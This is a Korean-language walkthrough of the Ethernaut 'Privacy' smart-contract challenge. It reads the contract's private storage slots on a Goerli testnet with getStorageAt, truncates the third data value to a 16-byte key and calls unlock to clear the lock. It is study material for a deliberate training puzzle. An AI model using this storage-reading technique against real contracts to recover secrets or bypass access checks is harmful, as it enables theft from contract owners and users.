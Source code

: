 https://teberr.notion.site/Ethernaut-Privacy-4212cbdaf3a14be69021fd015ec99757

![Privacy.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e2efc694-4bdc-48a9-97e3-b1f5eb2f8ee5/Privacy.png)

> 이 컨트랙트를 만든 사람은 스토리지 영역을 보호하기 위해서 주의를 기울였습니다.

이 컨트랙트를의 unlock 함수를 통해서 locked를 false로 만들어 주세요

힌트
- 스토리지가 어떻게 작동하는지 이해하기.
- 파라미터 파싱이 어떻게 이루어지는 지 이해하기
- 타입 캐스팅이 어떻게 이루어지는지 이해하기
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

# 코드 분석 및 공격

```solidity
  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;
```

컨트랙트의 제작자가 private을 통해 데이터 값을 보호하려고 하였지만 스토리지에 저장이 되어 있기 때문에 web3.eth.getStorageAt(’컨트랙트주소,idx)를 통하여 스토리지에서 값을 불러올 수 있다.

```solidity
await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',0)
'0x0000000000000000000000000000000000000000000000000000000000000001'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',1)
'0x00000000000000000000000000000000000000000000000000000000634bcf90'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',2)
'0x00000000000000000000000000000000000000000000000000000000cf90ff0a'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',3)
'0x29c5a17ec11f39916cc224be6209db072a5198ab6c755ce525b8e58f70ac48c5'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',4)
'0xd8a1892474c793591e2eb2ee653594ec92b96e2c3490d6f1196b07ff6c9f4338'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',5)
'0x40af1e146f5fb9a53955628f83e3f6196aa9d684ce09a772c9e94583397dcd8a'
```

await를 통해 받아온 결과값은 총 32바이트이다.(2자리당 1바이트) 

각 결과 값을 상태변수들과 연관지어보자.

```solidity
bool public locked = true;
await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',0)
'0x0000000000000000000000000000000000000000000000000000000000000001'
```

bool 타입의 locked 상태 변수는 true로 값이 1인 것을 확인할 수 있다.

```jsx
uint256 public ID = block.timestamp;
await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',1)
'0x00000000000000000000000000000000000000000000000000000000634bcf90'

---------------------------------------------------------------------------------------
await contract.ID()
o {negative: 0, words: Array(3), length: 2, red: null}
	length : 2
	negative : 0
	red : null
	words : Array(3)
		0:55299984
		1:24
		length:3
		[[Prototype]] : Array(0)
	[[Prototype]] : Object
```

uint256 타입은 256비트(32바이트)이므로 32바이트에 할당된 공간에서 634bcf90이 들어있는 것을 확인할 수 있다. 

![55299984.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/14728331-fe42-449d-bdfa-a02cb28412ed/55299984.png)

또한 ID 값은 public이므로 contract.ID를 통해 불러와본 결과 words의 첫번째 값에 55299984가 들어있는 것을 볼 수 있다. 이 값은 34bcf90으로 스토리지에서 불러온 값과 맨앞의 6만 제외하면 일치한다. 이로 인해 2번째 스토리지 값도 확인하였다.

```jsx
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',2)
'0x00000000000000000000000000000000000000000000000000000000cf90ff0a'

```

이 곳은 왜 세개의 상태 변수를 같이 가져왔는지 의아할 수 있지만 솔리디티에서 스토리지가 많을 수록 소모되는 가스 비용이 늘어나기 때문에 스토리지를 아끼기 위해서 같이 저장이 될 수 있다.

여기에 저장된 값은 cf90 ff 0a로 해석할 수 있다.

uint8의 경우 8비트로 1바이트(2칸)이고 uint 16은 16비트로 2바이트(2칸)이다. 

즉 cf90 ff 0a 는 각각 

flattening = 0a

denomination = ff

awkwardness = cf90으로 해석할 수 있다.

```jsx
bytes32[3] private data;

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',3)
'0x29c5a17ec11f39916cc224be6209db072a5198ab6c755ce525b8e58f70ac48c5'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',4)
'0xd8a1892474c793591e2eb2ee653594ec92b96e2c3490d6f1196b07ff6c9f4338'

await web3.eth.getStorageAt('0xBB497D310f08F49CCbF6AE9C131a05B734EdbE25',5)
'0x40af1e146f5fb9a53955628f83e3f6196aa9d684ce09a772c9e94583397dcd8a'
```

남은 것은 byte32[3] data과 스토리지에서 불러온 세개의 값이므로 32바이트의 data 배열이 각각 대응됨을 알 수 있다.

data[0] = 0x29c5a17ec11f39916cc224be6209db072a5198ab6c755ce525b8e58f70ac48c5

data[1] = 0xd8a1892474c793591e2eb2ee653594ec92b96e2c3490d6f1196b07ff6c9f4338

data[2] = 0x40af1e146f5fb9a53955628f83e3f6196aa9d684ce09a772c9e94583397dcd8a

```solidity
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
```

문제의 unlock을 풀기위해 필요한 데이터는 이중 data[2]이다.

즉 0x40af1e146f5fb9a53955628f83e3f6196aa9d684ce09a772c9e94583397dcd8a 를 bytes16으로 강제 형변환한 값이 키값이다. 

bytes16으로 강제 형변환하면 데이터중 절반이 소실된다. 따라서

0x40af1e146f5fb9a53955628f83e3f619 만 남기고 소실이 되므로 이 값이 키값이 된다. 

즉 이 키값을 넣어서 unlock을 실행하자.

![unlock.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/28198def-77a3-42fe-907e-b78084f46a6d/unlock.png)

```jsx
await contract.unlock('0x40af1e146f5fb9a53955628f83e3f619')
6dab102ee417c6c670be5febca39e425d7e07f6c.js:1 ⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x22b2910d8ad9c9dcee0f5d595b1187c06097be1d146daf062c6b64b743170cd4
6dab102ee417c6c670be5febca39e425d7e07f6c.js:1 ⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x22b2910d8ad9c9dcee0f5d595b1187c06097be1d146daf062c6b64b743170cd4
{tx: '0x22b2910d8ad9c9dcee0f5d595b1187c06097be1d146daf062c6b64b743170cd4', receipt: {…}, logs: Array(0)}
```

실행하고 나서 다시 locked 상태변수를 확인해주자.

![unlocked.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/508bcdf8-8f86-4ec8-b7ea-3bda442c293e/unlocked.png)

```jsx
await contract.locked()
false
```

문제의 목적인 잠금을 해제하였으므로 인스턴스를 제출하자.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2788faf4-f2f2-4411-8f65-aa2058116f46/%EC%84%B1%EA%B3%B5.png)

성공하였음을 볼 수 있다.

# 문제 후기

private 키워드는 솔리디티 언어의 구성중 하나일 뿐이지 이더리움 블록체인 내에서 진정한 private은 없다.  

Web3의 getStorageAt함수는 스토리지에 있는 모든 것을 읽을 수 있다. 물론 최적화 규칙과 기술 때문에 원하는 것을 읽는게 조금 까다로울 수는 있다. 

실제 컨트랙트에서도 스토리지에서 값을 읽는것이 이번 문제보다 많이 복잡하지는 않다. 

더 자세하게 알고 싶다면 [https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925) 를 참고하면 좋다.
